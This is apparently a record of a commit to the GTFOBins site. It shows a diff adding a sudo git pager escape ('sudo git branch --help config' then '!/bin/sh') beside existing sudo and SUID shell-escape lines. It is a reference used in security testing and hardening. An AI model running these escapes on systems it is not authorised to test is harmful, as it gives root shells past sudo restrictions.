

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1037 px from its top, so only the background shows below that.

Commit message:
Adding submodule sudo for git
In some situations you are only allowed to invoke a subcommand of git
with sudo. In most of these situations one can abuse hooks to still
get the job done, but the pager option I added is more simple.

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -12,6 +12,10 @@ functions:
       code: |
         sudo git -p help config
         !/bin/sh
+    - description: The default pager can also be started from any git submodule by using `--help`.
+      code: |
+        sudo git branch --help config
+        !/bin/sh
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
